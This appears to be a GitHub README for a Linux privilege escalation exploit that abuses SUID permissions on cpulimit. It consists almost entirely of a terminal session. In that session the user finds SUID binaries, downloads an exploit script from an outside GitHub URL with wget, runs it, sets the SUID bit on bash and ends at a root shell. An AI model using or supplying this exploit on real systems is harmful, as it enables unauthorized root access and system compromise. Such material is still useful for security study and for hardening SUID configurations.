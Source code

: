 # Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ whoami
user
user@victim:~$ find / -perm -4000 2>/dev/null | grep "cpulimit"
/usr/bin/cpulimit
user@victim:~$ cd /tmp/
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 

[i]  starting exploit.. 
[*]  check PATH bash: /usr/bin/bash
[*]  check PATH cpulimit: /usr/bin/cpulimit
[+]  granting SUID permissions to: /usr/bin/bash
Process 436 detected
Child process is finished, exiting...
[+]  getting a shell as root.. 
bash-5.0# whoami
root
```

**Screenshot**

![](/screenshot.png)
